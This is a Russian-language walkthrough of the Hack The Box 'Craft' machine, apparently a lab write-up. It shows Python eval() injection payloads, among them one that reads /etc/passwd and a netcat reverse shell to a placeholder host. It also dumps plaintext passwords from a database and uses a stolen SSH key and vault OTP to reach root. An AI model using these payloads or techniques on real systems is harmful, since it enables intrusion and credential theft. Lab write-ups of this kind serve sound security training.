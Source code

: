 # Hack The Box 

| Name  | Difficulty |
| ----- | ---------- |
| Craft | Medium     |

### Own User

##### Stage 1

Сканируем с помощью утилиты `nmap` 

```python
nmap -sV -sC -T4 -p 1-10000 10.10.10.110
```
В результате имеем следующие открытые порты: 
```python
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
443/tcp  open  ssl/http nginx 1.15.8
6022/tcp open  ssh      (protocol 2.0)
```

Переходим в браузере по ссылке https://10.10.10.110/ Пройдясь по сайту обнаруживаем поддомены. Для лучшей работы с машиной следует прописать поддомены в файле `nano /etc/hosts`: 
`10.10.10.110    craft.htb gogs.craft.htb api.craft.htb` 

скрин!!



##### Stage 2

Перейдем на `https://gogs.craft.htb/`. Ресурс является оболочкой для `git` и чем-то напоминает `github`. Внимательно рассмотрим сорцы и коммиты. 

В коммите по ссылке https://gogs.craft.htb/Craft/craft-api/commit/a2d28ed1554adddfcfb845879bfea09f976ab7c1 обнаруживаем пароль и логин для аутентификации.
```python
auth=('dinesh', '4aUh0A8PbVJxgd')
```



##### Stage 3

На главное странице говорится о **REST**, а значит на сайте есть **API**: https://api.craft.htb/api/ 

скрин 2

Первым делом напишем небольшой скриптик

Попробуем авторизоваться

```python
login = 'dinesh'
password = '4aUh0A8PbVJxgd'
auth = session.get('https://api.craft.htb/api/auth/login', auth=(login, password), verify=False)
```

Проверим, действительно ли мы авторизованы:

```python
check = session.get('https://api.craft.htb/api/auth/check', verify=False)
```

Проверка авторизации возвращает ошибку.

В сорцах на `git'e` обнаруживаем подозрительный HTTP - заголовок: `'X-Craft-API-Token'`.  Внимательно рассмотрим как он обрабатывается и попробуем снова: 

```python
auth = session.get('https://api.craft.htb/api/auth/login', auth=(login, password), verify=False)

auth_json = json.loads(auth.text)
token = auth_json['token']
headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

check = session.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
```

Отлично! Мы авторизировались



##### Stage 4

На странице **API**, имеется несколько других запросов. Один из них **POST**-запрос:

![image-20191226183401112](url_3)

В файле `craft_api/api/brew/endpoints/brew.py `  на `git'e`  видно, что параметр `abv` обрабатывается с помощью функции `eval()` 

```python
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
```

Но, мы знаем, что у функции `eval()` в `python` есть уязвимость. Воспользуемся следующий пейлодом: 

```python
abv = "__import__('os').system('cat /etc/passwd')"
```

И отправим его на сервер

```python
payload = {
  "id": 0,
  "brewer": "ololo",
  "name": "ololo",
  "style": "ololosha",
  "abv": abv
}
json_payload = json.dumps(payload)

brew = session.post('https://api.craft.htb/api/brew/', headers=headers, data=json_payload, verify=False)
```

Возвращается ошибка. Попробуем прокинуть **shell** через **netcat**. 

На хосте запустим прослушку **4444** порта

```python
nc -l -p 4444
```

И изменим параметр **abv** на то, чтобы сервер запустил `/bin/sh` и передал управление на наш ip-адрес на 4444 порту: 

```python
abv = "__import__('os').system('nc IP_HOST 4444 -e /bin/sh')"
```

где **IP_HOST** - ip-адрес хоста

Запускаем сплоит и мы оказываем на машине с правами **root**. К сожелению мы находимся в Докере, поэтому флага здесь нет.

[Ссылка на сплоит]



##### Stage 5

Для лучшего отображения, воспользуемся библиотека языка `python` - **pty**, активировав в нем **shell**: 

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

В папке `/opt/app ` лежит файл `dbtest.py`. Изучив его, видим, что он работает с БД **MySQL**.  Попробуем узнать, что у нас лежит в БД. Запускаем shell python'a: 

```python
python
```

Пропишем следующие команды для соединения с **MySQL**:

```python
>>> import pymysql
>>> from craft_api import settings
>>> connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST, user=settings.MYSQL_DATABASE_USER, password=settings.MYSQL_DATABASE_PASSWORD, db=settings.MYSQL_DATABASE_DB, cursorclass=pymysql.cursors.DictCursor)
>>> cursor = connection.cursor()
```

Выведем список БД: 

```python
>>> cursor.execute("SHOW DATABASES;")
>>> cursor.fetchone()
>>> cursor.fetchone()
```

Из двух БД нас интересует *craft*. Отобразим список таблиц в БД *craft*: 

```python
>>> cursor.execute("SHOW TABLES from craft;")
>>> cursor.fetchone()
>>> cursor.fetchone()
```

На глаза попадается таблица *user*. Выведем поля таблицы:

```python
>>> cursor.execute("SHOW COLUMNS FROM user FROM craft;") 
>>> for _ in range(3): cursor.fetchone()
```

В таблице имеется 3 записи, отобразим их: 

```python
>>> cursor.execute("SELECT id, username, password FROM user") 
>>> for _ in range(3): cursor.fetchone()
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

Первый пользователь нам известен, остальные два нет. 



##### Stage 6

Попробуем авторизироваться с логином и паролем пользователей на https://gogs.craft.htb/. Расмотрев их профили, обнаруживаем у пользователя **gilfoyle** приватный репозиторий. В конце репозитория имеется папка `.ssh` (ай-яй-яй :) ). Вытаскиваем от туда приватный ключ и сохраняем в файл  **id_rsa_craft**.

Известно, что на ip адресе открыт порт **ssh**, воспользовавшись ключем зайдем на него: 

```python
ssh -i id_rsa_craft gilfoyle@10.10.10.110
```

У нас запросят секретную фразу, введем ту, что нашли в БД. 

Заходим на машину и выполняем: 

```cat uset.txt```

Получаем флаг.

> bbf4...................12d4



### Root User

Следующим этапом необходимо получить доступ к пользователю **root**.

Еще раз посмотрим на приватный репозиторий пользователя **gilfoyle**. В нем обнаруживаем подозрительный файл https://gogs.craft.htb/gilfoyle/craft-infra/src/master/vault/secrets.sh. Воспользовавшись гуглом читам про команду **vault**. 

На сайте https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html сказано, что с помощью  **vault** можно создать учетные данные для удаленного хоста. 

картинка

Попробуем проэксплуатировать на нашей машине: 

```python
vault write ssh/creds/root_otp ip=10.10.10.110
```

В результате мы сгенерировали ключ для пользователя **root**. 

Проверим: 

```python
ssh root@10.10.10.110
```

Вуаля! Получилось! Делаем: 

```cat root.txt```

И получаем флаг.

> 831d...................1591